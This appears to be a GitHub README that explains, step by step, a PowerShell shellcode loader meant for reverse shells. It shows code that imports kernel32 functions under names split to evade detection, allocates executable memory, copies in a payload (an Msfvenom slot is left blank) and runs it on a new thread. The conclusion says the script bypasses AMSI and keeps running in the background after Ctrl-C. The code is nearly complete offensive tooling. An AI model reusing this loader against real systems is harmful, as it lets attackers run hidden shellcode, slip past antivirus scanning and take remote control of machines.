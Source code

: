 # Powershell_Rev_Scripts
## Explanation
# 1.
```powershell
$pythonmods = @"
using System;
using System.Runtime.InteropServices;
...
```
A variable called pythonmods is created and is a string that holds multiple lines of code emphasized by the '@"' or here strings. It includes the System and System.Runtime.InteropServices namespace.

# 2.
```powershell
public class K2 {
    [DllImport("kernel32", EntryPoint="Get" + "Proc" + "Address")]
    public static extern IntPtr gpa(IntPtr hModule, string procName);
    [DllImport("kernel32", EntryPoint="Load" + "Library")]
    public static extern IntPtr ll(string name);
    [DllImport("kernel32", EntryPoint="Virtual" + "Protect")]
    public static extern bool vp(IntPtr lpAddress, UIntPtr dwSize, uint flNewProtect, out uint lpflOldProtect);
```
This part of the code defines a class named K2, which calls Windows API functions using DllImport. 

The first import is "GetProcAddress," which is obfuscated by splitting into "Get" + "Proc" + "Address." 
- This import is used to get the address


The second import is "LoadLibrary" obfuscated by splitting into "Load" + "Library".
- This import is to load a dynamic link library, also known as a DLL, into memory


The third import is "VirtualProtect" obscured by splitting into "Virtual" + "Protect".
- This import is used to modify a region of memory's protection, ie, making it writable, executable, etc.

# 3.
```powershell
[DllImport("kernel32", SetLastError = true)]
    public static extern IntPtr CreateThread(
        IntPtr lpThreadAttributes,
        uint dwStackSize,
        IntPtr lpStartAddress,
        IntPtr lpParameter,
        uint dwCreationFlags,
        out IntPtr lpThreadId
    );
```
This method creates a method called CreateThread, which executes code at the address specified by lpStartAddress

# 4.
```powershell
[DllImport("kernel32", EntryPoint="Virtual" + "Alloc")]
    public static extern IntPtr va(IntPtr lpAddress, UIntPtr dwSize, uint flAllocationType, uint flProtect);

    public static void Copy(Byte[] source, Int32 startIndex, IntPtr destination, Int32 length) {
        Marshal.Copy(source, startIndex, destination, length);
    }
}
"@
```
The import is "VirtualAlloc" obfuscated by splitting into "Virtual" + "Alloc".
- This import is used to allocate memory for our shellcode


The helper function Copy is used to copy bytes to a specific memory location

# 5.
```powershell
Add-Type -TypeDefinition $pythonmods -Language CSharp
```
This tells PowerShell to add the type definition $pythonmods, specify the code as C#, and compile it. 

# 6.
```powershell
$pl = [Byte[]] (
    # Enter Payload Here
)
```
This part is where to add the payload, such as Msfvenom

# 7.
```powershell
$plSize = $pl.Length

$mem = [K2]::va([IntPtr]::Zero, [UIntPtr]::new($plSize), 0x3000, 0x40)

[K2]::Copy($pl, 0, $mem, $plSize)
```
First, calculate the size of the payload in bytes and store it as $plSize
Next, allocate memory for the payload using the VirtualAlloc function with the va method. Add the allocation type 0x3000, which means to have the memory region both reserved and committed.
- 0x1000 (MEM_COMMIT)
    - Flag used to allocate physical storage
- 0x2000 (MEM_RESERVE)
    - Flag that reserves memory space and saves it for future use
Add the protection flag 0x40, which indicates PAGE_EXECUTE_READWRITE, meaning the memory can be executed, read, and written to.
Next, copy the payload into the allocated memory.

# 8.
```powershell
$oldProtect = 0
$protectionResult = [K2]::vp($mem, [UIntPtr]::new($plSize), 0x40, [ref]$oldProtect)
```
Changes the allocated memory protection to 0x40, which allows the payload to execute as soon as it's copied into memory. The vp method is called to ensure the memory is executable.

# 9.
```powershell
$threadId = [IntPtr]::Zero
$hThread = [K2]::CreateThread([IntPtr]::Zero, 0, $mem, [IntPtr]::Zero, 0, [ref]$threadId)
```
Creates a thread that executes at the allocated memory where the copied payload resides. 

# 10.
```powershell
while ($true) {
    Start-Sleep -Seconds 60
}
```
Infinite loop that waits 60 seconds between each iteration of the loop. Used to keep the current PowerShell window running.

# Conclusion
This script bypasses Windows AMSI and executes shellcode using PowerShell. Even if the PowerShell window is given the command Ctrl-C, it will continue to run in the background. 
- Terminating the Process
    - Terminate the thread or PowerShell itself using Task Manager.
    - After the shell code finishes, it should cause the thread to terminate
        - Ex. Reverse Shell -> after the attacker terminates the session, the thread should also be terminated, and with it, PowerShell as well
